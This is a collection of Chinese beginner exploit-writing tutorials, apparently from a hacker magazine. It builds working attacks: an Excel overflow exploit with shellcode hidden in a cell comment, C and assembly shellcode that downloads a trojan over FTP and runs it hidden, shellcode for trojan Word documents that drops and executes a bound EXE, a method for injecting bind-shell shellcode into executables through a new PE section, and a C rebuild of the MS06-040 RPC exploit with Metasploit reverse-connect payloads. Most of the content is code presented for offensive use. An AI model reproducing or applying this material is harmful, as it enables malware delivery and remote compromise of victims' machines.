此方式也在调试 Word 溢出漏洞的时候验证过行不通，因为相关的 ERR 结构保存在堆栈中距离溢出点上万字节的地方，大面积的数据覆盖可能引发其他异常。

### 3. 直接填写 ShellCode 地址

此方式对付这类漏洞相对最有效。在调试 Word 溢出漏洞的时候我就是直接用堆栈中溢出点的下 4 字节地址来填写 EIP，然后紧跟 ShellCode。在这个 EXCEL 溢出漏洞中，ShellCode 先为 EB FE 测试成功；但是后来发现文件中 FF 7F 90 01 之后可供填充 ShellCode 的空间小得可怜，很难容下功能比较复杂的 ShellCode。

针对上述问题，我们发现 ShellCode 还可以放在注释里。因为异常发生的时候，正好注释还在堆栈中，如图 8 所示：


图 8

Excel 注释的添加方法大家一看就明白，如图 9 所示：

加上注释后，我们把 EIP 的地址填充为 0x0012B9D0。该地址是注释在堆栈中的地址。开头还是改为最简单的 ShellCode——EB FE，测试成功！但好景又不长，当注释长度大于 40 时，却将不能触发溢出了，所以怎么增大注释是一个必须解决的问题。

这里为大家献上一个小工具，可以很方便地操作 Excel 数据库，大小只有 400 多 K，如图 10 所示。


图 9


图 10

经过分析，发现可以增加整个 Excel 文档的块数，来解决增大注释问题，思路如下：

- 1）修改 Excel 文档开头 512 字节中表示数据块数的两个标记。
- 2）修改数据块索引。
- 3）修改注释总长度。
- 4）前面 3 步 OK 之后，在新增加的注释部分加上我们的 ShellCode 就可以了。

在我的机器上为 19 00 00 00 和 18 00 00 00，如果要添加一个 512 字节数据块，则分别修改为 1A 00 00 00 和 19 00 00 00。如果增 2 个以上的数据块，也依此类推。

Excel 文件有多个有效块、多个自由块，以及 1 个终止块。我们的目的是要增加有效块，但要先确定我们的注释是紧接着第几个自由块之后。如果注释紧接着第 1 个自由块之后，则在 1 个自由块之后加上我们的块索引标志 02 00 00 00，其他情况依次类推。

由图 8 可知，0x001D 是注释的长度，如果要增加 512 字节，则将该长度改为 0x021D。

上述步骤在我的机器上测试完全通过，光盘中分别提供生成并执行 cmd.exe 的样本 .xls 文件，一个针对 Windows 2000 SP4，另一个针对 XP SP2。

### 总结

本文中，我们讨论了 Excel 表名溢出漏洞，从介绍漏洞起因到漏洞的调试分析，最终给出合理的漏洞利用方案。这个过程中除了添加注释需要用到 Excel 自身的知识外，其余的技术在以前的漏洞分析文章中基本都有涉及。希望这篇文章对初学朋友有所帮助，文中有什么不妥的地方也希望大家多多交流。

- 适合读者：溢出爱好者
- 前置知识：汇编基础知识

## 菜鸟版 Exploit 编写指南之三十四：再谈 Down&Exec 的 Shellcode


文/图 lcxjb

以前在黑防上看到有人用 URLDownloadToFile 和 WinExec 2 个函数打造了 HTTP 方式下载文件并运行的 ShellCode。其实除了采用 HTTP 方式下载以外，我们还可以用 FTP 的下载方式。有人可能要说，何必那么麻烦呢？FTP 系统还要用户名和密码呢？但是“兵无定式，水无常形”，最好的方式总是随着环境而定的，入侵和防守亦是如此。我举个例子：如果我们都是在局域网，大家都没上外网，在扫描的时候发现有缓冲区漏洞机器，这时候用 HTTP 方式就有点勉强了。但是在本机运行一个 FTP 服务器软件，如 20CN 的 mini FTP 服务器，绿色的直接运行，然后用 FTP 方式下载运行的 ShellCode，这样的溢出会很容易实现。

```c
IN HINTERNET hFtpSession, // InternetConnect 函数返回的句柄
IN LPCSTR lpszRemoteFile, // 要下载的文件
IN LPCSTR lpszNewFile,    // 保存的路径和文件名
IN BOOL fFailIfExists,    // false 表示如果文件存在则覆盖
IN DWORD dwLocalFlagsAndAttributes, // 文件属性
IN DWORD dwInternetFlags, // 二进制传输流
IN DWORD dwContext        // 0
);

UINT WinExec(
LPCSTR lpCmdLine, // 要执行的文件名或路径
UINT uCmdShow     // 窗口显示方式 SW_HIDE 隐藏运行
);
```

说了这些，主要就是为了告诉大家，在安全技术的攻与守中，没有最好的办法，只有最适合实际环境的办法。

下面我们开始打造 FTP 方式的 Down&Exec—ShellCode。

为了保证公网和内网都适用，FTP 方式在这里用到的函数比 HTTP 的要多一点点，但并不意味着复杂。流程 InternetOpen → InternetConnect → FtpGetFile → WinExec。

我们一起来看一下编程宝典 MSDN 上对这几个函数的描述吧。

好了，我们先看看 C 语言的源代码：

```c
#include <windows.h>
#include <wininet.h>
#pragma comment(lib,"wininet")
#define FLAGS 0 // INTERNET_FLAG_PASSIVE
#define HOST "192.168.0.232" // FTP 服务器 IP 或域名
#define PORT INTERNET_DEFAULT_FTP_PORT
#define USER "testUser"
#define PASSWORD "testPass"
#define REMOTE_FILE "huigezi.exe"
#define LOCAL_FILE "c:\\woshimima.exe"

void main()
{
    HINTERNET hInternet, hServer;
    STARTUPINFO startup_info;
    hInternet = InternetOpen(NULL, INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    hServer = InternetConnect(hInternet, HOST, PORT, USER, PASSWORD, INTERNET_SERVICE_FTP, 0, 0);
    FtpGetFile(hServer, REMOTE_FILE, LOCAL_FILE, false, FILE_ATTRIBUTE_NORMAL, FTP_TRANSFER_TYPE_BINARY, 0);
    WinExec(LOCAL_FILE, SW_HIDE);
    InternetCloseHandle(hServer);
    InternetCloseHandle(hInternet);
    ExitProcess(0);
}
```

```c
HINTERNET InternetOpen(
IN LPCSTR lpszAgent,
IN DWORD dwAccessType,
IN LPCSTR lpszProxyName,
IN LPCSTR lpszProxyBypass,
IN DWORD dwFlags
);

HINTERNET InternetConnect(
IN HINTERNET hInternetSession,
IN LPCSTR lpszServerName,
IN INTERNET_PORT nServerPort,
IN LPCSTR lpszUsername,
IN LPCSTR lpszPassword,
IN DWORD dwService,
IN DWORD dwFlags,
IN DWORD dwContext
);

BOOL FtpGetFile(
```

现在开始打造我们的通用 FTP Down&Exec ShellCode。（要注意，这些函数需要动态链接库 Wininet.dll 的支持，所以我们使用的时候要包含该 DLL。）

### 1. 获取 kernel32.dll 基址（PEB 大法）

```asm
mov eax, fs:[0x30]   ; PEB 的地址
mov eax,[eax+0x0c]   ; PEB_LDR_DATA 的地址
mov esi,[eax+0x1c]   ; Flink 地址
lodsd
mov edi,[eax+0x08]   ; 偏移 8 个字节即 kernel32.dll 基址
```

### 2. 获取 Windows API 函数（HASH 大法）

Windows API 名字较长，为减少 ShellCode 长度，文中给出 HASH 算法：`h = ((h<<25)|(h>>7)) + c`。

```asm
HASH_loop:
xor eax,eax
lodsb
cmp al,ah
je FindFunc
ror edi,7
add edi,eax
jmp HASH_loop
```

这样可获得所需函数的 HASH 值，再比较得到函数地址（主要代码）。

```asm
FindAddr:
cmp edi,[esp+20]
jnz LoopFindFunc
mov ebx,[edx+36]
add ebx,ebp
mov cx,[ebx+2*ecx]
mov ebx,[edx+28]
add ebx,ebp
mov eax,[ebx+4*ecx]
add eax,ebp
```

### 3. 连接 FTP 服务器下载木马运行（主要代码）

```asm
push 0x0074656E ; "net"
push 0x696E6977 ; "wini"
push esp
call eax ; LoadLibrary("wininet")
...
hInternet = InternetOpen(...)
...
hServer = InternetConnect(hInternet, HOST, PORT, USER, PASSWORD, INTERNET_SERVICE_FTP, 0, 0)
...
```

```asm
FtpGetFile(hServer, REMOTE_FILE, LOCAL_FILE, false, FILE_ATTRIBUTE_NORMAL, FTP_TRANSFER_TYPE_BINARY, 0)
...
WinExec(LOCAL_FILE, SW_HIDE)
...
InternetCloseHandle(hServer)
InternetCloseHandle(hInternet)
ExitProcess(0)
```

### 4. 形式定位

利用 `call/pop` 使 `edx = EIP`，从而定位后续 HASH 数据与字符串数据，便于在 shellcode 中进行位置无关访问。

```asm
jmp PROC_BEGIN
func_start:
pop edx

PROC_BEGIN:
call func_start

db 0x331A1DDC ; LoadLibraryA
db 0xF600B78F ; InternetOpenA
db 0x2DDB9564 ; InternetConnectA
db 0x2DBD2F33 ; FtpGetFileA
db 0x09046D19 ; WinExec
db 0xEC468F87 ; ExitProcess
db 0x733ABB93 ; InternetCloseHandleA

db "test",0
db "test",0
db "192.168.0.232",0
db "c:\woshimuma.exe",0
db "huigezi.exe",0
```

好了，FTP 下载文件并运行的 ShellCode 打造完毕。内网外网均可运行，实际使用时可按需修改 IP、账号等参数。

适合读者：ShellCode 爱好者、溢出爱好者、编程爱好者  
前置知识：ShellCode 编写基础

## 菜鸟版 Exploit 编写指南之二十五
## 编写 Word 木马的 ShellCode

文／图 cnhst.


在 2006 年第 2 期文章中，曹军分析了导致去年“万珍”病毒的 Word 2000 溢出漏洞细节，但并没涉及漏洞的具体利用；第 4 期文章中，黑防讨论了生成 WMF 木马的 ShellCode 的设计与实现。由于自身特点，Word 木马的设计与前者有较大区别，下面由我对此进行一下分析。

### 预备知识

- 文件解析漏洞（DOC、PDF、WMF、JPG 等）因载体是文件，适合制作木马。
- 通过文件解析漏洞制作木马的方法有 3 种：
  - 全功能由 ShellCode 完成（受字节数限制）
  - ShellCode 下载并执行指定 URL 木马（受网络与防火墙限制）
  - 文件中直接绑定 EXE，ShellCode 仅负责生成与执行（本文采用）
- 类似 WMF 木马，可通过 `copy /b old.doc+aa.exe new.doc` 在 DOC 中绑定 EXE。
- Word 木马传播形式多样（E-mail、QQ、IE 等），不宜依赖 TIF 临时目录查找。

### ShellCode 设计思路

- 查找可用 API 函数地址。
- 查找绑定木马后的 DOC 文件路径（从内存搜索路径最有效）。
- 找到 DOC 中填充 ShellCode 的位置，将前两字节改为 `EB FE`（JMP -2）。
- 用 Word 打开 DOC，观察 CPU 占用，进入调试确认 EIP 停在 `EB FE`。
- Alt+D 查看数据区，搜索路径并确保地址区间连续可读。
- DOC 路径为 UNICODE，需 `CreateFileW` 打开 DOC，再用 `CreateFileA` 创建 `aa.exe`。
- `SetFilePointer` 指向 `MZ` 开头，循环 `ReadFile/WriteFile` 输出 `aa.exe`，最后执行并安全退出 Word。

```text
000017b0h: 00 00 00 00 ...
000017c0h: 53 00 75 00 ...
000017d0h: AA AA AA ...
000017e0h: DD DD DD ...
```

图 1

### 汇编实现及 ShellCode 的提取

- 在 Windows XP SP2 + VC6 下汇编实现并测试通过。
- 搜索并保存关键 API 地址：`GetProcAddress`、`LoadLibraryA`、`CreateFileW`、`CreateFileA`、`SetFilePointer`、`ReadFile`、`WriteFile`、`WinExec`、`ExitThread`。
- 在内存中动态搜索 DOC 文件路径并组织调用参数。

| 栈偏移/位置 | 含义 |
|---|---|
| +14h | WinExec |
| +18h | WriteFile |
| +1Ch | ReadFile |
| +20h | SetFilePointer |
| +24h | CreateFileA |
| +28h | CreateFileW |
| +2Ch | GetProcAddress |
| +30h | DOC 文件句柄/地址 |
| +34h | aa.exe 文件句柄 |
| +38h | CloseHandle |
| +3Ch | ExitThread |

图 2

咯，XP SP2 下从 `0x0013c300` 开始搜索，2000 + SP4 下从 `0x0012c300` 开始搜索。

> 由于 Word2000 的编译器不是 2003 .NET 的，因此 2003 下该漏洞利用也应该没问题。各位读者可以测试一下。

搜索部分的汇编代码如下：

```asm
// 从0x0013c300处开始向高地址处搜索当前doc文件路径，搜索标志为"\\"
sub esp, 0x800
mov esi, esp
add esi, 4
mov edi, 0x12c300
mov ebx, 0x005c003A
xor ecx, ecx
comp:
inc ecx
cmp ebx, dword ptr[edi + ecx - 1]
jnz comp
```

找到 DOC 文件路径后，通过 `CreateFileW` 函数打开该 DOC 文件，然后通过 `CreateFileA` 创建文件 `aa.exe`，汇编代码如下：

```asm
lea ebx, dword ptr[edi + ecx - 3]
push 0
push 0x80 // FILE_ATTRIBUTE_NORMAL
push 3 // OPEN_EXISTING
push 0
push 3 // FILE_SHARE_READ | FILE_SHARE_WRITE
push 0x80000000 // GENERIC_READ
push ebx
call dword ptr[ebp + 28h] // CreateFileW
...
push 0x40000000 // GENERIC_WRITE
push ebp
call dword ptr[ebp + 24h] // CreateFileA
```

通过 `SetFilePointer` 函数让 DOC 文件指针指向 `aa.exe` 文件数据开始的地方，即指向 `MZ`。该位置可以直接从 UltraEdit32 中读取。汇编代码如下：

```asm
// SetFilePointer: 设置文件偏移(exe文件位置)
push 0
push 0
push 0x6800 // exe文件数据开始处
mov eax, dword ptr[ebp + 30h] // doc文件句柄
push eax
call dword ptr[ebp + 20h] // SetFilePointer
```

循环从 DOC 文件中读取 `aa.exe` 文件数据，并写入 `aa.exe`。汇编代码如下：

```asm
mov dword ptr[ebp + 40h], 0
mov dword ptr[ebp + 44h], 0
Read_Write_exe:
push 0
lea eax, dword ptr[ebp + 40h]
push eax
push 0x400
push esi
push dword ptr[ebp + 30h]
call dword ptr[ebp + 1Ch] // ReadFile
push 0
lea eax, dword ptr[ebp + 44h]
push eax
push dword ptr[ebp + 40h]
push esi
push dword ptr[ebp + 34h]
call dword ptr[ebp + 18h] // WriteFile
cmp dword ptr[ebp + 44h], 0x400
jge Read_Write_exe
push dword ptr[ebp + 30h]
call dword ptr[ebp + 38h] // CloseHandle
push dword ptr[ebp + 34h]
call dword ptr[ebp + 38h] // CloseHandle
```

最后执行生成的 `aa.exe`，并安全退出 WinWord。汇编代码如下：

```asm
push 0 // SW_HIDE
push ebp
call dword ptr[ebp + 14h] // WinExec
gameover:
push 0
call dword ptr[ebp + 3Ch] // ExitThread
```

OK，汇编实现就是这样了，接下来是 ShellCode 的提取。提取方法以前黑防也介绍过，就是从 VC 调试界面的内存窗口中直接读取汇编代码对应的机器编码，如图 3 所示：


### Word 木马的构造与测试

ShellCode 提取之后，我们再通过两个简单的转换程序写入到 DOC 文档中。为了不破坏 DOC 文档，数据写入的方式应该采用“改写”而不是“插入”。两个转换程序分别为 `readdoc` 和 `newdoc`：前者读取 DOC 文件数据，后者根据前者得到的数据进行改写，并重新生成。

其中，为了减小 DOC 木马体积，建议大家采用汇编写的 EXE 程序。

从上面的分析可知，绑定一个文件和绑定多个文件的方法类似，并且和绑定的文件格式无关。

### 小结

在本文中，我们讨论了以 Word 2000 溢出漏洞为基础，创建 Word 木马的 ShellCode 编写技术。其实这种方法应用是比较广的，而涉及的技术也大多是比较基础的。最近 Word XP 和 Word 2003 又爆出新漏洞，而且已经被成功利用。大家参考 2 期中的漏洞分析文章和本文，相信也能分析出这些新漏洞。最后还是那句老话，欢迎大家交流。

---

适合读者：溢出爱好者  
前置知识：Win32 溢出基础

## 菜鸟版 Exploit 编写指南之二十六
## 不死的 ShellCode

文／图 lcjxb


### 引子

看了这么久的黑防，我想大家都知道 ShellCode 是什么吧。说白了，就是能够实现攻击者目的的一段机器码。

在溢出攻击中，让有漏洞的机器执行这段机器码，达到攻击的目的。漏洞利用完 ShellCode 就等于死了，不存在了。如果目标机器把漏洞补好了，那溢出攻击就会失效；有没有办法在一次溢出成功后，ShellCode 仍然存在呢？

N 久以前，看过古开元兄写的《也谈把 QQ2005 做成后门之编程实现》，当时真是受益匪浅。元哥的思路是通过搜索查找 EXE 文件的最后一个区块，在这个区块后面搜索足够大小空闲的 00 块，在它们后面存放后门代码。通过更改程序入口点，执行后门代码，最后跳回程序原来的入口点继续执行。

不过正如元哥所说，对 VC++ 等编译的可执行文件的代码块是 `.text`，而 Delphi 编译的会是 `.code`，这样在查找区块的时候，还是有一点缺乏通用性。

其实除了搜索空白区域，我们还有一种办法可以达到同样的效果，那就是给可执行文件增加区块。这样似乎通用性要强那么一点。

### 编写

这里关于增加区块的代码，我是借鉴好兄弟 Niklen，哈哈，写的免杀工具的代码，所谓“师夷长技以制夷嘛”。

```text
....（二进制数据与转换相关代码段）....
```

然后将这些二进制数据拷贝到 UltraEdit32 中，再通过一个简单的转换程序转换为我们熟悉的 `\x` 形式即可。具体过程这里就不再讨论了，在光盘中我直接给出转换程序代码。

下面开始讲解我的思路。

- 为可执行文件增加一个“exploit”区块。
- 在“exploit”区块中加载我们所希望的 ShellCode。
- 更改可执行文件的入口点，使其先执行我们的 ShellCode。
- 恢复程序真正入口点，使其得以继续执行。
- over!

好，我们开始打造吧。本程序是用 Delphi 编译的；来看看代码。测试就先用开 DOS 窗口的 ShellCode 吧。

```text
JMPOFF := 25; // 偏移25个字节
SHELLCODE: THEAD = ($55,$8B,$EC,$51,$C7,$45,$FC,$63,$6D,$64,...);
... // 到这里正好25个字节
($00,$10,$40,$00,$FF,$E0)
```

> 这里开 DOS 窗口的 WinExec 函数的地址，每台机器是不同的。大家可以用 GetWinExecAddr.cpp 获得，光盘有收录。

为什么要 25 个字节呢？看到最后一行没有，其实这是我从 VC 的花指令中改造过来的。最后一行就是 VC 程序通常的入口点 `0x401000`。这样配合下面的汇编代码，我们将很容易地恢复程序原本的入口点。

在本文的下半部分，我们将看见绑定 4444 端口的 ShellCode，`JMPOFF` 赋值为 317。所以你选择的 ShellCode 长度是多少，`JMPOFF` 就要赋予多少。

```asm
PUSHAD        // 寄存器入栈
LEA eax, SHELLCODE  // 取SHELLCODE的地址
...
```

```cpp
ADD eax, JMPOFF        // eax = eax + JMPOFF
MOV edx, AddressOfEntryPoint  // 将入口点赋值给 edx
MOV DWORD ptr [eax], edx      // 同上
POPAD                         // 所有寄存器出栈
```

```cpp
// 版本信息
PEHEADER.OptionalHeader.MinorLinkerVersion := 0;
AddressOfEntryPoint := AddressOfEntryPoint + PEHEADER.OptionalHeader.ImageBase;
// 程序入口点是一个 RVA 值，需加上装载基址变成运行时入口函数的虚拟地址
...
PEHEADER.OptionalHeader.SizeOfImage :=
PEHEADER.OptionalHeader.SizeOfImage + MySectionHeader.Misc.VirtualSize;
// 改变整个文件的映像尺寸
fs.Write(PEHEADER, sizeof(PEHEADER));
fs.Seek(fs.Size, soFromBeginning); // 定位文件大小/区块位置
fs.Write(SHELLCODE, MySectionHeader.Misc.VirtualSize); // 写入 SHELLCODE
```

我这里测试的目标是 SuperScan3.0，大家可以自由选择。我们用 OD 加载被增加区块的 SuperScan3.0，如图 1 所示。


图 1

下面就是增加区块的代码了。

```cpp
fs.Seek(0, soFromBeginning); // 指向文件头
fs.Read(DOSHEADER, sizeof(DOSHEADER));
fs.Seek(DOSHEADER_lfanew, soFromBeginning); // 指向 PE 头
fs.Read(PEHEADER, sizeof(PEHEADER));
fs.Seek(sizeof(SectionHeader) * (PEHEADER.FileHeader.NumberOfSections - 1), soFromCurrent);
fs.Read(SectionHeader, sizeof(IMAGE_SECTION_HEADER));

MySectionHeader.Name[0] := ord('e');
MySectionHeader.Name[1] := ord('x');
MySectionHeader.Name[2] := ord('p');
MySectionHeader.Name[3] := ord('l');
MySectionHeader.Name[4] := ord('o');
MySectionHeader.Name[5] := ord('i');
MySectionHeader.Name[6] := ord('t');
MySectionHeader.Name[7] := 0;

MySectionHeader.VirtualAddress := PEHEADER.OptionalHeader.SizeOfImage;
MySectionHeader.Misc.VirtualSize := $500;
MySectionHeader.SizeOfRawData := (... FileAlignment ...);
MySectionHeader.PointerToRawData := SectionHeader.SizeOfRawData + SectionHeader.PointerToRawData;
MySectionHeader.Characteristics := $E0000020;
Inc(PEHEADER.FileHeader.NumberOfSections);
fs.Write(MySectionHeader, sizeof(MySectionHeader));

fs.Seek(DOSHEADER_lfanew, soFromBeginning);
AddressOfEntryPoint := PEHEADER.OptionalHeader.AddressOfEntryPoint;
PEHEADER.OptionalHeader.AddressOfEntryPoint := MySectionHeader.VirtualAddress;
PEHEADER.OptionalHeader.MajorLinkerVersion := 7;
```

看一下增加的区块，如图 2 所示。


图 2

现在打造完毕，测试一下功能。启动 SuperScan3.0 的时候，DOS 窗口也打开了。如图 3 所示。


图 3

似乎只开了 DOS，感觉不是太完美，那绑定一下 4444 端口吧。

```cpp
JMPOFF = 317;  // 前面已经说了为什么会是 317 了
SHELLCODE:
$eb,$10,$5b,$4b,$33,$c9,$66,$b9,$23,$01,$80,$34,$0b,$f8,$e2,$fa,
$eb,$05,$e8,$eb,$ff,$ff,$ff,$11,$01,$f8,$f8,$f8,$a7,$9c,$59,$c8,
...
```

```text
$a7,$b0,$71,$a7,$04,$71,$a7,$a8,$75,...
...
// 到这里正好317个字符
$00,$10,$40,$00,$FF,$E0);
```


ShellCode 的长度。回顾一下，把 ShellCode 保存在新增的区块中，是不是就可以达到 ShellCode 不死的目的呢？如果把这段代码也提取为 ShellCode，黑黑……这些就靠读者朋友自己去拓展吧！

> 有些可执行文件会限制区块的大小，这样会限制我们加载理想的 ShellCode；如果超出大小，有的可能会执行失败，程序本身的功能失去，有的时候甚至会出错。

最后再说几句废话，这本来是破解里的文件补丁技术，或者是通过花指令防破解的技术，或者是防杀毒软件的免杀技术，再或者是病毒加载宿主程序的技术，但现在被我们用在了缓冲区溢出攻击里。

### 总结

至于反向连接、下载执行的 ShellCode，读者朋友可以自行测试，记得 `JMPOFF` 要等于……

---

适合读者：溢出爱好者  
前置知识：Win32 溢出基础

## 菜鸟版 Exploit 编写指南之二十七
## 从分析 MS06-040 谈 Metasploit 改造成鸡肋提取

文／图：何永强 / H.S.T


Metasploit Framework 针对 MS06-040 漏洞公布了相应的利用代码 `Netapi_ms06_040.pm`。按老师要求，我特别分析了这个漏洞……更重要的是，通过这个漏洞的利用过程，谈谈如何从分析 Metasploit 的 Exploit 一步步改写成自己的攻击代码，并实现 ShellCode 的灵活修改。

### 数据包拦截与漏洞的简单分析

漏洞公告如图 1 所示。根据公告，我们知道这又是 RPC 服务发生了溢出漏洞，但得到的信息仅此而已……

| 字段 | 内容 |
|---|---|
| 发布时间 | 2006-10-13 |
| 更新日期 | 2006-10-19 |
| 受影响系统 | Windows XP SP2 / 2000 SP4 / Server 2003 等 |
| 漏洞编号 | MS06-040 / CVE-2006-3439 |

- 分析清楚 SMB/DCE RPC 协议的相关细节。
- 将相关模块进行反汇编分析，并尽量熟悉各函数功能。
- 根据协议构造测试报文，结合动态调试定位触发漏洞代码，判定堆栈溢出类型。
- 动态调试中进行数据流跟踪，分析怎样填充报文数据才能使 ShellCode 正常执行。

看似简单的几个环节，实际工作量却很大。如果没有专用工具以及良好的团队协作的话，针对 Windows 远程溢出漏洞的分析和利用将很难完成。

幸好 Metasploit 会在第一时间将相对重要的漏洞利用代码以 `.pm` 模块的形式公布出来。我们只需要更新其 Framework，或者将相应的 `.pm` 文件添加到 Framework 中去就可以利用了，具体添加路径是“安装目录\home\framework\exploits”。使用 `Netapi_ms06_040.pm`，将 `PAYLOAD` 设置为反向连接 4321 端口（相应的 `.pm` 文件是 `payloads` 目录下的 `win32_reverse.pm`），在我的虚拟机（Windows 2000 SP4）上测试成功。测试过程中，通过 Ethereal 截获通信报文，部分报文如图 2 所示。


通过观察这些报文，容易分析出该漏洞是由于对使用命名管道 `srvsvc`（别名 `ntsvcs`）向目标机器上 UUID 为 `4b324fc8-1670-01d3-1278-5a47bf6ee188` 的 RPC 接口发送请求的错误处理引起的，类型为堆栈溢出。SMB/DCERPC 协议，以及具体漏洞细节我就不在这里多讲了，分析模式与 05 年 11 期 dangguai27 对 MS05-039 漏洞的分析文章相似。

下面我着重讲解如何打造自己的漏洞攻击代码。

### 测试程序的构造

在 Metasploit 提供的 Exploit 基础上，构造自己的 C 代码攻击代码最直接的方法，就是将拦截的报文数据构造为 TCP 数据。它包含了 SMB/RPC 协议的内容，然后进行发送测试。实现过程中，需要准备一个工具——WinHex。该工具可以将二进制数据复制之后直接存为 C 代码数组（C Source），如图 3 和图 4 所示。


上面截获的报文都是“请求——回应”的形式，因此我们发送的数据应该从请求报文中获取，通过 `send` 函数发送出去，再通过 `recv` 函数接收回应报文数据，然后再发送下一个请求。

```c
unsigned char data[256] = {
  0x2F, 0x80, 0x42, 0xD2, ...
};
```

图 4

具体到此漏洞，有 IPC$ 空连接建立、打开命名管道 `srvsvc`、BIND RPC 接口、进行 RPC 通信等共 12 个 SMB 请求报文需要发送。打开每一个截获的请求报文，将 SMB 部分加上前面 4 字节数据（NetBIOS Session Service）一起保存为 `.dat` 文件（如图 5 所示），用 WinHex 打开后，将这些数据另存为 C Source，作为 C 代码数组即可使用了。


报文通信部分 C 代码如下：

```c
WSAStartup(MAKEWORD(2,0), &wsa);
if ((sockfd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP)) < 0) {
    printf("Create socket failed\n");
    return 1;
}
addr.sin_family = AF_INET;
addr.sin_port = htons(445); // 139端口也可
addr.sin_addr.s_addr = inet_addr(argv[1]);
memset(&(addr.sin_zero), '\0', 8);
if (connect(sockfd, (struct sockaddr *)&addr, sizeof(struct sockaddr)) < 0) {
    printf("Connect failed\n");
    return 1;
}
```

下面 5 个报文是建立 IPC$ 空连接：

```c
if (send(sockfd, SMB_Negotiate, sizeof(SMB_Negotiate), 0) < 0) {
    printf("Negotiate send failed\n");
    return 1;
}
len = recv(sockfd, recvbuf, 4096, 0);
if ((len <= 10) || (recvbuf[0] != 0)) {
    printf("Negotiate failed\n");
}
if (send(sockfd, SMB_SessionSetupAndX1, sizeof(SMB_SessionSetupAndX1), 0) < 0) {
    printf("SessionSetupAndX1 send failed\n");
}
len = recv(sockfd, recvbuf, 4096, 0);
if (len <= 10) {
    printf("SessionSetupAndX1 failed\n");
}
if (send(sockfd, SMB_SessionSetupAndX2, sizeof(SMB_SessionSetupAndX2), 0) < 0) {
    printf("SessionSetupAndX2 send failed\n");
    return 1;
}
len = recv(sockfd, recvbuf, 4096, 0);
if ((len <= 10) || (recvbuf[9] != 0)) {
    printf("SessionSetupAndX2 failed\n");
}
if (send(sockfd, SMB_SessionSetupAndX3, sizeof(SMB_SessionSetupAndX3), 0) < 0) {
    printf("SessionSetupAndX3 send failed\n");
}
len = recv(sockfd, recvbuf, 4096, 0);
if (send(sockfd, SMB_TreeConnectAndX, sizeof(SMB_TreeConnectAndX), 0) < 0) {
    printf("TreeConnectAndX send failed\n");
}
len = recv(sockfd, recvbuf, 4096, 0);
```

下面这个请求报文是 CreateFile NamedPipe：

```c
if (send(sockfd, SMB_PipeRequest_srvsvc, sizeof(SMB_PipeRequest_srvsvc), 0) < 0) {
    printf("PipeRequest_srvsvc send failed\n");
    return 1;
}
len = recv(sockfd, recvbuf, 4096, 0);
if ((len <= 10) || (recvbuf[9] != 0)) {
    printf("PipeRequest_srvsvc failed\n");
}

// 下面这个请求报文是 BIND RPC Interface(UUID)
if (send(sockfd, SMB_NETAPIEndpoint, sizeof(SMB_NETAPIEndpoint), 0) < 0) {
    printf("NETAPIEndpoint send failed\n");
    return 1;
}
len = recv(sockfd, recvbuf, 4096, 0);
if ((len <= 10) || (recvbuf[9] != 0)) {
    printf("NETAPIEndpoint failed\n");
}
```

下面是 5 个报文请求发送给指定的 RPC 接口：

```c
send(sockfd, RPC1_data, sizeof(RPC1_data), 0);
recv(sockfd, recvbuf, 4096, 0);
send(sockfd, RPC2_data, sizeof(RPC2_data), 0);
recv(sockfd, recvbuf, 4096, 0);
send(sockfd, RPC3_data, sizeof(RPC3_data), 0);
recv(sockfd, recvbuf, 4096, 0);
send(sockfd, RPC4_data, sizeof(RPC4_data), 0);
recv(sockfd, recvbuf, 4096, 0);
send(sockfd, RPC5_data, sizeof(RPC5_data), 0);
recv(sockfd, recvbuf, 4096, 0);
```

详细代码参见光盘附带的 `ms06040-1.c`，在 XP SP2 + VC6 下编译、测试通过。上面这种直接拦截通信报文并进行重组发送的方法是比较可靠的，但最大缺点是缺乏灵活性。我们基本无法从二进制报文数据中直接识别出经过特殊编码处理的 ShellCode。要修改反连 IP、端口等参数的话，只能在 Metasploit 里使用 `set RHOST` 以及 `set LHOST` 等命令重新设定，然后发送、抓包再重组……实在是很不方便。这就迫使我们必须先分析 Metasploit Exploit 的 ShellCode 编码机制，然后才能确定并修改 ShellCode。

## Metasploit Exploit 中 ShellCode 编码机制分析

按照正常思维，我们先看看 `Netapi_ms06_040.pm` 以及 `win32_reverse.pm` 的内容。其中 `Netapi_ms06_040.pm` 只是根据我们的参数设定调用 `payloads` 中的 ShellCode 来构造 Exploit，但其中有个语句 `Pex::NDR::Long(int(rand(0xffffffff)))` 很值得注意。这里我们最关心的是 ShellCode 如何定位。用 UltraEdit32 打开 `win32_reverse.pm`，看到了相应的原始 ShellCode，如图 6 所示。

```perl
Payload =>
{
  Offsets =>
  {
    'LPORT'    => [166, 'n'],
    'LHOST'    => [160, 'ADDR'],
    'EXITFUNC' => [278, 'V']
  },
  Payload =>
    "\xfc\xe8\x82\x00..."
}
```

图 6

从图 6 中可知道，payload 中给出了反连 IP、端口等参数在 ShellCode 中的偏移位置。即使能猜测到 ShellCode 大致会放在 BIND RPC 接口之后的几个报文中，但要从各报文数据中直接查找原始 ShellCode 是不可能的，因为它肯定进行了编码处理。要分析清楚 ShellCode 编码方式，还需要使用 Metasploit Framework 进行下面 2 个测试。

- 1. 在 `win32_reverse.pm` 中，将 ShellCode 全部改为 `\x90`，然后针对目标机器进行测试；并且再次拦截报文。溢出之后是肯定得不到 Shell，但在 `RPC3_data`、`RPC4_data` 和 `RPC5_data` 这 3 个报文中，可以看到大量循环的 4 字节字符组合 `2D AD D0 6D`。将这 4 字节与 `90 90 90 90` XOR 运算之后，得到了 ShellCode 的编码密钥 `BD 3D 40 FD`。
- 2. 在 `win32_reverse.pm` 中，将 ShellCode 全部改为 `\x41`，然后针对目标机器进行测试，还是拦截报文。这次看到大量循环的 4 字节字符组合是 `EA F5 AD 5D`。将这 4 字节与 `41 41 41 41` XOR 运算之后，得到了另一个 ShellCode 编码密钥 `AB B4 EC 1C`。

由此可见，同一个 Exploit，每次测试编码的 ShellCode 编码密钥都不相同。结合前面那个 4 字节随机数产生语句 `Pex::NDR::Long(int(rand(0xffffffff)))`，可以得出下列 2 个结论。

### 溢出研究之四

- 1. ShellCode 按照 4 字节编码，并且编码密钥是每次随机产生的；
- 2. 为了解码方便，编码密钥应该放在编码后的 ShellCode 前后，因此整个 ShellCode 还会有一段解码头部。

为了验证第 2 个结论，在前面全 90H 的 ShellCode 测试报文中搜索 `BD 3D 40 FD`，结果却找不到这个序列。后来发现是将这 4 字节编码密钥循环左移 8 位后存放在固定位置。

```
48 99 F9 37 4E 48 ...
... AD D0 6D 2D ...
```

